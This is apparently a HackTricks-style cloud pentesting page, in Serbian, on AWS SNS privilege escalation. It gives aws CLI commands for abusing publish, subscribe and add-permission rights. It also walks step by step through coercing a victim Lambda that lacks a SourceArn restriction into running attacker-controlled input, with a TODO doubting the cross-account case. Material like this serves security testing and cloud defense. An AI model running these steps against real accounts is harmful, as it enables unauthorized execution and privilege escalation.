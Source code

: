 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

Za više informacija pogledajte:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

An attacker može poslati zlonamerne ili neželjene poruke na SNS topic, što može dovesti do oštećenja podataka, pokretanja neželjenih akcija ili iscrpljivanja resursa.
```bash
aws sns publish --topic-arn <value> --message <value>
```
**Potencijalni uticaj**: iskorišćavanje ranjivosti, oštećenje podataka, neželjene radnje ili iscrpljivanje resursa.

### `sns:Subscribe`

Napadač bi mogao da se pretplati na SNS topic, potencijalno stičući neovlašćen pristup porukama ili ometajući normalno funkcionisanje aplikacija koje se oslanjaju na taj topic.
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**Potencijalni uticaj**: Neovlašćen pristup porukama (osetljive informacije), prekid usluge za aplikacije koje zavise od pogođene teme.

### `sns:AddPermission`

Napadač bi mogao dodeliti neovlašćenim korisnicima ili servisima pristup SNS temi, potencijalno stičući dodatne dozvole.
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Potential Impact**: Neovlašćen pristup topic-u, izlaganje poruka, ili manipulacija topic-om od strane neovlašćenih korisnika ili servisa, prekid normalnog rada aplikacija koje zavise od topic-a.


### Pozivanje Lambda pomoću zloupotrebe wildcard SNS dozvole (bez `SourceArn`)

Ako resource-based policy Lambda funkcije dozvoljava `sns.amazonaws.com` da je pozove bez ograničavanja source topica (`SourceArn`), bilo koji SNS topic (čak i u drugom account-u) može da se prijavi i okine funkciju. Attacker sa osnovnim SNS permissions može da natera Lambda da se izvrši pod svojom IAM rolom koristeći attacker-controlled input.

> [!TIP]
> TODO: Može li se ovo zaista izvesti cross-account?

Preduslovi
- Victim Lambda policy sadrži izjavu kao ispod, bez `SourceArn` uslova:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
Koraci zloupotrebe (u istom ili između naloga)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**Potencijalni uticaj**: victim Lambda se izvršava sa svojom IAM rolom i procesuira attacker-controlled input. Ovo se može zloupotrebiti da funkcija izvrši osetljive radnje (npr. pisanje u S3, access secrets, izmena resursa) u zavisnosti od njenih dozvola.


{{#include ../../../../banners/hacktricks-training.md}}
